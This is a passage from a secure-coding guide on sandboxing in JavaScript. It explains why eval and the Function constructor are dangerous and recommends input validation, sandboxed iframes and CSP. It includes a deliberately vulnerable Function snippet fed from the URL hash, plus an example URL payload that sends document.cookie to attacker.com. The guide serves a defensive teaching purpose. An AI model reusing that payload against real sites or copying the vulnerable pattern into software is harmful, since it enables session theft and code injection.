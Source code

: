 Sandboxing
==========

Special on [Output Encoding][1] and [Database Security][2] sections you've been
told that user input should be always handled as untrusted and unsafe data.
Moreover user input data should never be subject of string concatenation to
computed, for examples, database queries.

You'll find to more General Coding Practices on [OWASP SCP - Quick Reference
Guide][3] which we will address together

* "_Do not pass user supplied data to any dynamic execution function_"
* "_Restrict users from generating new code or altering existing code_"

Let's be brief: `eval` is evil (or at least it is when misunderstood)!

[`eval`][4] is a JavaScript function which, generally speaking, evaluates given
argument (`String`) as source code, making it execute in the runtime context.

This would be the same than dynamically add a new `<script>` HTML element to
the page's body.

Note that evaluating arbitrary user input in your application's runtime context
**SHOULD NEVER** be done.

`eval` is not the only way to evaluate arbitrary `String`s: you may want to have
a look at [Function constructor][5]. We go with a simple examples

```javascript
const myAlert = Function('alert("' + document.location.hash.substring(1) + '")');
myAlert();
```

So, let's visit and "share sorrys"

```
https://example.com/#sorry");(new Image).src="//attacker.com/?cookie="+document.cookie;("
```

Rule of thumbs and further more that user input (as other data sources may cause
you troubles): [identify and classify your data sources as "trusted" and
"untrusted"][6] and **ALWAYS** (but **ALWAYS) perform [input validation][7],
rejecting the invalid input.

If after all you really need to execute untrusted data, please use a sandbox.

On the client-side the best you can do is loading the insecure content in a
`<iframe>` HTML element with the attribute `sandbox` set. You can [find the spec
here][8]. Whenever possible, provide a [Content Security Policy][9].

Server-side you have a few more options.
Have a look at this projects

* [gf3/sanbox][10]
* [patriksimek/vm2][11]
* [PhantomJS][12] (_a headless WebKit scriptable with a JavaScript API._)

**Note** that [Node.js VM module][13] is not intended to execute untrusted code.

[1]: ../output-encoding/README.md
[2]: ../database-security/README.md
[3]: https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide
[4]: http://www.ecma-international.org/ecma-262/6.0/#sec-eval-x
[5]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function
[6]: ../input-validation/data-sources.md
[7]: ../input-validation/README.md
[8]: https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox
[9]: ./content-security-policy.md
[10]: https://github.com/gf3/sandbox
[11]: https://github.com/patriksimek/vm2
[12]: http://phantomjs.org/
[13]: https://nodejs.org/dist/latest-v6.x/docs/api/vm.html